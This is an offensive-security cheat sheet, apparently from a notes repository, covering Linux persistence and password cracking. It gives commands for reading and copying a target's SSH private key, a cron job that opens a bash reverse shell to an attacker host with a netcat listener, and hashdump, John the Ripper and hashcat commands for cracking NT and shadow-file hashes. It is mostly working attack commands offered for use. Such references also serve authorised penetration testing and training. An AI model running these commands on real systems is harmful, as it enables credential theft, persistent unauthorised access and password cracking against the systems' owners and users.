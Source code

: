 ### Linux Persistence

```bash
ls -lah ~/.ssh/
cat ~/.ssh/id_rsa
cat ~/.ssh/authorized_keys
cat ~/.ssh/known_hosts

# Download the 'id_rsa' file
scp <USER>@<TARGET_IP>:~/.ssh/id_rsa .
chmod 400 id_rsa

ssh -i id_rsa <USER>@<TARGET_IP>

# Cron Jobs
cat /etc/cron*
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1'" > cron
crontab -i cron
crontab -l

# Setup a 'nc' listener and wait for the Bash Reverse Shell
nc -nvlp <PORT>
```

### Dumping & Cracking

#### Windows

```bash
hashdump

# JohnTheRipper
john --list=formats | grep NT
john --format=NT hashes.txt

gzip -d /usr/share/wordlists/rockyou.txt.gz
john <Hash_Password-File> --wordlist=/usr/share/wordlists/rockyou.txt # To crack the password from your previous output (hashdump,shadow file )
john --format=NT win_hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt

john -wordlist /usr/share/wordlists/rockyou.txt crack.hash
john -wordlist /usr/share/wordlists/rockyou.txt -users users.txt test.hash

#this is another way to crack passwords (that requires shadow file with passwd file)
unshadow passwd shadow > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

hashcat -a 3 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
hashcat -a 3 -m 1000 --show hashes.txt /usr/share/wordlists/rockyou.txt
hashcat -m 1000 -a 0 -o found.txt --remove crack.hash rockyou-10.txt
```
